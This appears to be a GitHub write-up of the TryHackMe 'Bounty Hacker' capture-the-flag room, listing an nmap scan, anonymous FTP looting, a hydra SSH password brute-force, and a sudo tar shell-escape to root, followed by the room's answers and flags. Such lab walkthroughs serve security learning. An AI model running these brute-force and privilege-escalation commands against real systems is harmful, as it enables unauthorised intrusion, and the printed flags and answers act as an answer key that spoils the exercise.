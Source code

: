 # Bounty-Hunter-CTF
https://tryhackme.com/room/cowboyhacker

**Use nmap to scan for open ports : sudo nmap -sS -sV  10.10.158.109 

*21/tcp open  ftp     vsftpd 3.0.3*

*22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)*

*80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))*


Login to the ftp server anonymous and the following will be found:

*-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt*

*-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt*

get both files to local machine 

cat task.txt :

*1.) Protect Vicious.*

*2.) Plan for Red Eye pickup on the moon.*

*-lin*

cat locks.txt to get some sort of password list

**use hydra to bruteforce the password with lin as user : hydra -t 4 -l lin -P /home/kali/locks.txt ssh://10.10.158.109

*22][ssh] host: 10.10.158.109   login: lin   password: RedDr4gonSynd1cat3*

ssh lin@10.10.158.109 to gain access

ls and cat user.txt to get the first flag

**sudo -l to get some info:

*User lin may run the following commands on bountyhacker:*

    (root) /bin/tar

**Head to https://gtfobins.github.io/#tar to find some exploits to bypass : search for tar

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

cd root and cat root.txt to get the final flag

❔THM Q & A:

## Who wrote the task list? 

lin

## What service can you bruteforce with the text file found?

ssh

## What is the users password? 

RedDr4gonSynd1cat3

## user.txt

🏴‍☠️THM{CR1M3_SyNd1C4T3}

## root.txt

🏴‍☠️THM{80UN7Y_h4cK3r}






